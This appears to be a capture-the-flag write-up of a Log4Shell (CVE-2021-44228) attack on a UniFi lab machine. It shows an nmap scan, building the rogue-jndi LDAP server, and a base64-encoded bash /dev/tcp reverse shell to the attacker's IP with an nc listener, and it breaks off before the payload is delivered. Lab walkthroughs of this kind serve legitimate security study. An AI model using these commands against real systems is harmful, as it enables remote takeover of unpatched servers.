 #Linux #CVE-2021-44228


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.18.96
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp   open  OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
* 6789/tcp open  ibm-db2-admin?
* 8080/tcp open  http-proxy
* 8443/tcp open  ssl/nagios-nsca Nagios NSCA
* 8843/tcp open  ssl/unknown
* 8880/tcp open  cddbp-alt?

We'll follow procedure described in the following article:

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Our action plan is to get a reverse shell so we can interact with the underlying Linux operating system

```sh
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170054746-daa8621e-f227-45a2-bd18-b3a3078ac94c.png)
 
  It seems that Maven (MVN) is not installed in our localhost. 
  
```sh
sudo apt-get install maven 

```
  
Reverse shell command: 

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.16.26/4444 0>&1' | base64
#This command will generate a base64 encrypted string

#To start the rogue-jndi LDAP server up
java -jar target/RogueJndi-1.1.jar --command "bash -c {YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.26"
# Make sure to change the directory, base64 hash, and IP address --> VPN IP

#Start listening on a new terminal
sudo nc -nvlp 4444

```
